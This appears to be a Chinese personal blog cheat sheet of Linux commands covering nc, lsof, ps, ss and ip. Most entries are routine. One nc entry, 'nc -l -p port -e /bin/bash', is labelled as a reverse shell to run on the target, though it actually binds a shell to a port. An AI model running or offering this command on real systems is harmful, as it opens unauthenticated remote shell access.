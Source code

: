 ```yaml
---
layout: post
title:  "quick commands"
category: tools
date:   2024-02-03
---
```


记录一些常用的命令

## 1 nc

### 1 建立TCP连接

`nc hostname port`

### 2 监听TCP端口

`nc -l -p port`

监听UDP的命令是`nc -u -l -p port`

### 3 发送文件

`nc -w 3 hostname port < file`

### 4 接收文件

`nc -l -p port > file`

### 5 发送UDP数据

`echo "data" | nc -u -w 1 hostname port`

### 6 扫描开放的端口

`nc -zv hostname start_port-end_port`

### 7 通过HTTP请求发送数据

`echo -e "GET / HTTP/1.1\nHost: hostname\n\n" | nc hostname port`

### 8 创建反向shell： 在目标机器上运行

`nc -l -p port -e /bin/bash`

## 2 lsof

list open files

### 1 查看端口占用情况

`lsof -i :port`

### 2 查看某个文件被哪些进程占用

`lsof filename`

### 3 查看某个进程打开了哪些文件

`lsof -p pid`

## 3 ps

process status 

### 1. 查看所有进程

`ps -ef`或者`ps aux`

“e” 表示显示环境变量，"f" 表示显示完整格式，"a" 表示显示所有用户的进程，"u" 表示显示用户/所有者信息，"x" 表示显示没有控制终端的进程。

### 2. 查看运行中的进程

`ps -e`

### 3. 查看某个用户的进程

`ps -u username`

### 4. 树状图显示

`ps axjf`

## 4 ss

+ `ss`：如果没有任何参数，ss 会列出开放的非监听 TCP 套接字。

+ `ss -t`：列出所有 TCP 套接字。

+ `ss -u`：列出所有 UDP 套接字。

+ `ss -l`：列出所有监听的套接字。

+ `ss -a`：列出所有套接字（包括监听和非监听的）。

+ `ss -n`：不解析服务名称，直接显示端口号。

+ `ss -p`：显示进程使用的套接字。

+ `ss -e`：显示详细的套接字信息。

+ `ss -o`：显示 timer 信息.

## 5 ip

+ 查看网络设备信息：使用 `ip link show` 或者简写为 `ip l`，这将显示所有网络设备的信息，包括设备名称、状态（UP 表示启用，DOWN 表示关闭）、MAC 地址等。

+ 启动或关闭网络设备：使用 `ip link set dev DEVICE up` 或 `ip link set dev DEVICE down`，其中 DEVICE 是你要操作的设备的名称。例如，要启动名为 eth0 的设备，你可以输入 `ip link set dev eth0 up`。

+ 查看 IP 地址：使用 `ip addr show` 或者简写为 `ip a`，这将显示所有网络设备的 IP 地址信息。

+ 添加或删除 IP 地址：使用 `ip addr add IP dev DEVICE` 或 `ip addr del IP dev DEVICE`，其中 IP 是你要添加或删除的 IP 地址，DEVICE 是你要操作的设备的名称。例如，要给 eth0 设备添加 IP 地址 192.168.1.2，你可以输入 `ip addr add 192.168.1.2 dev eth0`。

+ 查看路由信息：使用 `ip route show` 或者简写为 `ip r`，这将显示所有的路由信息。

+ 添加或删除路由：使用 `ip route add NETWORK via GATEWAY` 或 `ip route del NETWORK via GATEWAY`，其中 NETWORK 是你要添加或删除的网络，GATEWAY 是你要设置的网关。例如，要添加一个到 192.168.1.0/24 网络的路由，网关为 192.168.1.1，你可以输入 `ip route add 192.168.1.0/24 via 192.168.1.1`。
